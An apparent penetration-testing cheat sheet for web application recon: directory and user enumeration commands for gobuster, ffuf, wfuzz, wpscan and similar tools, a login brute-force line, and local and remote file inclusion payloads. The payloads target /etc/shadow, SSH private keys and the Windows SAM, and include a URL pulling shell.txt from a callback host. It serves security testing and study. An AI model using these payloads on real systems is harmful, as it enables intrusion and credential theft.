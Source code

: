 
## Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!

## 

## Common Wordlists to use for Web App Scanning: 

Common Wordlists to use for Web Directory Scanning: 
- /usr/share/wordlists/dirb/common.txt
- /usr/share/wordlists/dirbuster/*.txt
- /usr/share/wordlists/wfuzz/general/*.txt
- /usr/share/seclists/Discovery/Web-Content/

Common Wordlists to use for User Enumeration Scanning: 
- /usr/share/seclists/Usernames
- /usr/share/wordlists/dirbuster/apache-user-enum-2.0

## Web App Scanners

Nikto: 

- nikto --url (domain)

Wpscan:

- wpscan --url (domain)
- wpscan --url (domain) --enumerate ap at (All Plugins, All Themes)
- wpscan --url (domain) --enumerate u (Usernames)
- wpscan --url (domain) --enumerate v

Web Tools for Directory Scanning: 



Dirb: 

- dirb (domain)
- dirb (domain) (wordlist)

Gobuster: 

- gobuster dir -u (url) -w /usr/share/wordlists/(Wordlist file)
- gobuster dir -u (url) -w /usr/share/wordlists/(Wordlist file) -a Firefox (Custom Agent)
- gobuster dir -u (url) -w /usr/share/wordlists/(Wordlist file) -x .php,.txt,.html
- gobuster dir -u (url) -w /usr/share/wordlists/(Wordlist file) -x .php,.txt,.html -s "200"
- gobuster dir -e -u (url) -w /usr/share/wordlists/(Wordlist file) -x .php,.txt,.html -s "200"
- gobuster dir -v -e -u (url) -w /usr/share/wordlists/(Wordlist file) -x .php,.txt,.html -s "200"
- gobuster dir -v -e -u (url) -w /usr/share/wordlists/(Wordlist file) -x .php,.txt,.html -s "200" -o output.txt
- gobuster dir -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'

Wfuzz:

- wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ
- wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ
- wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ"  --hc 302 http://testphp.vulnweb.com/userinfo.php (Post Requests)

- wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ (Fuzzing Cookies)

Dirsearch: 

- dirsearch /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 172.21.0.0 -e php

FFuF:

- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0
- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -b "COOKIE VALUE; security=low" -u http://172.21.0.0
- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0 -fc 403, 302, 200
- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -H "Host: 172.21.0.0" -u http://172.21.0.0
- ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0 -timeout 5


Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan
- Feroxbuster


## A simple web crawler/spider:

#mkdir -p /tmp/test1

#cd /tmp/test1

#wget -r -l 5 http://www.xxx.com/index.html; grep -nR -i keyword www.xxx.com | tee ./report.txt


## HTTPrint Banner Grab:

HTTPrint is a tool helping carry out an automatic Banner Grabbing.

Examples are shown below:

* httprint -P0 -s /usr/share/httprint/signatures.txt -h 1.2.3.4
* httprint -P0 -s /usr/share/httprint/signatures.txt -h https://1.2.3.4


## Testing for LFI: 

https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf

Examples: 

http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd

Interesting Files:

Linux:
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa

Windows:

Windows:
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM



## Testing for RFI: 

http://example.com/index.php?page=http://callback.com/shell.txt
http://example.com/index.php?page=http://callback.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt

## Resources

- Turning LFI to RFI: https://l.avala.mp/?p=241
